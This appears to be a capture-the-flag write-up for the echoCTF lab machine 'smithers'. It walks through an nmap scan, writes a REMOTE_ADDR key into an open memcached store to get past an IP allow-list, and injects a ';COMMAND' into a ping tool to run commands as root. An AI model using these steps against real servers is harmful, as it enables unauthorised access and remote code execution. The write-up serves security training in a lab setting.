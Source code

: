 ```yaml
---
layout: page
title: smithers
---
```




[smithers](https://echoctf.red/target/5)
![](/assets/images/smithers_site.png)


machine description:

Like Smithers this server will serve you well only if you manage to enter it's memcached store.

---

### Enumartion


nmap -sV -sC -p- 10.0.100.142  

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-18 06:38 EDT
Nmap scan report for 10.0.100.142
Host is up (0.088s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE   VERSION

10888/tcp open  http      nginx
|_http-title: Network Tools

11211/tcp open  memcached Memcached 1.5.12 (uptime 488079 seconds)



## Enumartion

http://10.0.30.0:10888/

```
Network Utilities
These utilities are only available to authorized IP's only. 
If you need access to this page contact the administrator to update the ACL.
Server's version: 1.5.12
Visitor REMOTE_ADDR: 10.10.0.10
REMOTE_ADDR value not found on key.
You are not authorized to access this resource
```

### vulnerability

memcached server runing with full accsess and permisions


### Memcached  Enumartion

[Memcached](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache)

we can understand that enter site is limite be ip and we see that REMOTE_ADDR value not found on key.

so lets try to add key with my ip address:

1. connecting using telnet 10.0.30.0 11211
2. add REMOTE_ADDR 0 0 10 
3. 10.10.0.10

```
$ telnet 10.0.30.0 11211
Trying 10.0.30.0...
Connected to 10.0.30.0.
Escape character is '^]'.
add REMOTE_ADDR 0 0 10
10.10.0.10
STORED

``` 

now we got access to other page with option to run ping


![](/assets/images/rce_smithers.png)

### Rce


lets try to run ping with ;COMMAND


![](/assets/images/Priv_sec_smithiers.png


### Privilege escalation


![](/assets/images/Priv_sec_smithiers.png)
                                                        
as we can see the proceess is running as root.
